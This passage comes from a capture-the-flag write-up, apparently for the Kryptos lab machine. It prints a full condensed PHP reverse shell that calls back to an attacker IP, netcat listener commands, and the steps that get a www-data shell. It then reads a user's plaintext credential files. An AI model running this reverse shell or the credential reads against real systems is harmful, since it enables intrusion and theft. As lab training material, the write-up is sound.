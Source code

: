 We prepare the listener on the attacker machine and we run the script to open the created file. On two different shells:

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis /dev/d9e28afcf0b274a5e0542abb67db0784/db.php

Nonetheless, it look like that **nc** dies instantly as the connection is created. Therefore, it looks necessary to use another shell. For this purpose, we have chosen the [Pentest Monkey's PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), but it has been reduced in size by suppressing comments, shortening names and removing unnecessary features:

	<?php set_time_limit(0);$i="10.10.16.9";$p=9119;$cs=1400;$sh="/bin/sh -i";$d=null;$e=null;$s=fsockopen($i,$p,$en,$es,30);$ds=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$pr=proc_open($sh,$ds,$pp);if(!is_resource($pr)){exit(1);}stream_set_blocking($pp[0],0);stream_set_blocking($pp[1],0);stream_set_blocking($pp[2],0);stream_set_blocking($s,0);while(1){if(feof($s)){break;}if(feof($pp[1])){break;}$r=array($s,$pp[1],$pp[2]);$n=stream_select($r,$d,$e,null);if(in_array($s,$r)){$in=fread($s,$cs);fwrite($pp[0],$in);}if(in_array($pp[1],$r)){$in=fread($pp[1],$cs);fwrite($s,$in);}if(in_array($pp[2],$r)){$in=fread($pp[2],$cs);fwrite($s,$in);}}fclose($s);fclose($pp[0]);fclose($pp[1]);fclose($pp[2]);proc_close($pr); ?>

Again, lets run both nc and our script: 

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis {REQUEST_HERE_ENCODED}{PAYLOAD_HERE_DOUBLE_ENCODED}

Then, let's call the created page:

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis /dev/d9e28afcf0b274a5e0542abb67db0784/db.php

	root@pentestbox:~# nc -lnvp 9119
	listening on [any] 9119 ...
	connect to [10.10.16.9] from (UNKNOWN) [10.10.10.129] 38780
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami
	www-data


## Privilege escalation to user _rijndael_

From a first look in the file system, it is possible to see that the path ```/home/rijndael/``` is world-readable. Inside of it, there are a few interesting things:

	$ ls -la
	...
	-rw-rw-r-- 1 root     root       21 Oct 30  2018 creds.old
	-rw-rw-r-- 1 root     root       54 Oct 30  2018 creds.txt
	drwx------ 2 rijndael rijndael 4096 Mar 13  2019 kryptos
	-r-------- 1 rijndael rijndael   33 Oct 30  2018 user.txt
	$ cat creds.old
	rijndael / Password1
	$ cat creds.txt
	VimCrypt~02!
	�vnd]�K�yYC}�5�6gMRA�n$ -�
